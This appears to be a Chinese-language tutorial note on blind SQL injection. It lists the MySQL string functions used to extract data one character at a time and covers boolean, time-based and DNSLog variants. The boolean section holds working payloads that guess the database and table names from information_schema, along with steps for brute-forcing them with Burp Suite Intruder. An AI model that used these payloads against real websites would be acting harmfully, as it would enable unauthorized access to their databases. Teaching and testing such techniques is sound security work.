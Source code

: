 # 无显注入法--无法通过页面直接显示数据和错误信息
### 0x01 函数样例
```sql
    if(expr1,expr2,expr3),满足条件expr1即条件expr1返回expr2否则expr3
    mid(str,start,length),第一个参数是内容，第二参数是截取位置，第三参数是截取长度
    substr(str,pos,len)
    ascii(),编码绕过,如: ascii(substr((select user()),1,1))=114
    left(str,length)
```
### 0x02 布尔盲注

#### 原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

#### 注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

### 0x03 时间盲注

#### 原理:

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

#### 方法: 配合Burpsuite快速匹配

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)

### 0x03 DNSLog盲注

#### 方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)





